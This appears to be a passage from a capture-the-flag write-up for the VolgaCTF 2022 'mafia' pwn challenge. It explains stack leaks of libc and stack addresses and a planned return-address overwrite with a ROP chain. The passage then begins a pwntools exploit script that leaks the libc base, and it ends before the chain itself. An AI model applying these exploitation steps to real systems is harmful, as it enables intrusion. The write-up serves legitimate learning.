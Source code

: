 Above is what the stack looks like after setting a break point at `*main+740` (the `puts` in `3. Print string`), and then creating a string at index `0` of length `48` with contents `blah\n`, followed by a string at index `1` with a length of `0`.

> Why `48`?  I tested various sizes, the larger the allocation the more leaks in the stack, `48` gave me access to a stack and libc leak in close proximity to `$rsp`.

At line `+0x0060` you can observe the `uint` array of string lengths, including the `0xfffffffc` from the string length of `0`.  And starting at line `+0x00a0` is the array of pointers for to the `alloca` created strings on stack.

This dirty stack has everything we need to leverage our _write-what-where_; at `+0x0018` is a libc leak, and at `+0x0028` a stack leak.  If you look at the value of that leak, it is the same as `$rbp` (look at bottom of stack dump), add `8` to that and you have the stack address of the return address we are going to overwrite with our ROP chain.

**NOTE: different libc's will use the stack in different ways, so it is very important to use the challenge provided libc, e.g.:**

```bash
cp mafia mafiap
patchelf --set-interpreter $PWD/ld.so --set-rpath $PWD mafiap
```

The above will make it easier to work with GDB/pwntools.

> It's not the only way, just the lazy way.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./mafiap',checksec=False)
libc = ELF('./libc.so.6',checksec=False)

if args.REMOTE:
    p = remote('mafia.q.2022.volgactf.ru', 1337)
else:
    p = process(binary.path)
```

Standard pwntools header.

```python
p.sendlineafter(b'>> ',b'1')
p.sendlineafter(b'size:\n',b'48')
p.sendlineafter(b'index:\n',b'0')
p.sendlineafter(b'string:\n',7 * b'A')
p.sendlineafter(b'>> ',b'3')
p.sendlineafter(b'index:\n',b'0')
p.recvline()
libc.address = u64(p.recv(6) + b'\0\0') - libc.sym.puts - 378
log.info('libc.address: {x}'.format(x = hex(libc.address)))
```
